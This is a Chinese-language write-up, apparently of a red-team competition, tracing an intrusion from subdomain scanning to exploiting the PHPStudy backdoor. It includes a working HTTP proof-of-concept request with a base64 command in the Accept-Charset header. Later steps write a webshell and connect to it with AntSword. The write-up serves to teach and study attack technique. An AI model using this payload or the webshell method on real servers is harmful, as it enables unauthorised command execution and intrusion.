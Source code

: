 0x00 前言
=======

这次比赛的靶标是拿到商业计划书，给的入口信息只有一个域名www.xxx-qq.com

0x01 域名信息搜集
===========

在线扫描子域名， 发现4个子域名及4个IP：  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-04cc6e0ab354907ffdede9278f2286b2f5d03a71.png)  
收集到子域名后，使用fscan扫一波信息(忘截图了)，接着开始打点

0x02 172.31.40.136 PHPStudy命令执行
===============================

扫描目录发现PHP探针文件，其中l.php中暴露了绝对路径，并且发现使用了PHPstudy  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-22f0ec4413feeb3413513c7d47fb221312d23c4e.png)  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5b3d071fbc8004b28bf3777f0134e75d90042547.png)  
从l.php可以看出探针版本是较早的，就联想到之前的PHPStudy后门事件，然后就试着打了一发POC，成功执行了命令：

```php
GET /phpinfo.php HTTP/1.1

Host: 172.31.40.136:8080

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

X-Forwarded-For: 172.31.40.136

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip,deflate

Accept-Charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7

Connection: close

Upgrade-Insecure-Requests: 1
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-99b00919b29572f197593d1f86e643ecc446c448.png)

此时能够执行命令，又知道web绝对路径，利用命令执行写入webshell，这里用的是powershell命令写入，更简便的方法是利用PHP写文件函数写入：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f2bb7bde17f80cafe3512b5274c875fb221e4878.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-690a95d1ba4efbbe16638690dbbe99e466dcf8cd.png)

写入成功后使用蚁剑连接webshell：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5b6f9748c7c4c26713fc3cc619a9db17a05d9408.png)
